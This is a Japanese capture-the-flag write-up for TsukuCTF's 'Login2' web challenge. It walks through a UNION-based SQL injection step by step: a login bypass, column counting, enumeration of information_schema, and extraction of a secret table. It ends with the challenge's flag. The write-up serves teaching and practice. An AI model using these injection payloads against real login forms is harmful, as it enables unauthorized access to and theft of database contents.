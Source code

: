 ```yaml
---
title: Login2
description: union select  によるSQLi
author: rikuta0811_dash
genre: Web
solver: 21
point: 323
---
```


# Login 2

> 筑紫君が自分の会員制サイトを修正したんだって。でもどうやら何が問題だったのかわかっていないみたいですよ?
> 
> https://tsukuctf.sechack365.com/problems/login2
> 
> ※ この問題では/problems/login2以下のみを用います。 他の問題/problems/<name>などと混同しないよう注意してください。

Login 1 ~ 3がセットでSQL injectionの問題になっています。
Login2では、SQL injectionが可能な場所を見つけた後に、適切なInjectionによりデーターベース内の情報を探索することでflagを得ることができます。

まずUsernameに``` ' or 1=1 ; -- ```を指定すると、図のようなログイン画面が表示されます。

![login2](./login2.png)

どうやらここにSQLiができそうです。
```UNION SELECT``` で情報を抜くために、まずSELECT文のカラム数を特定します。
Usernameとして ```' union select null ; -- ```,  ```' union select null, null ; -- ```,  ```' union select null, null, null ; -- ```  ...とnullの数を増やしていくと、nullが2個のときにログインに成功します。
これにて攻撃の準備は完了です。ここからは、データベース内を探索していきます。

MySQL内のデータに関する情報は、```information_schema.columns```というテーブルに収納されています。まずは、ここの```table_name```というカラムを見るのが定石です。ということで、Usernameに

```txt
' UNION SELECT table_name, null FROM information_schema.columns; -- 
```
を入力してログインすると、```super_secret_table```というテーブルがあることがわかります。多分flagはここでしょう。
次に、カラム名を知るために、Usernameを

```txt
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name = 'super_secret_table'; -- 
```
としてログインします。すると、idとsecretというカラムがあることがわかります。
最後に、

```txt
' UNION SELECT secret, null FROM super_secret_table; -- 
```

とすればflagがゲットできます。

```txt
TsukuCTF{50_muCh_GR3AT_Hacker_!ND3ED}
```
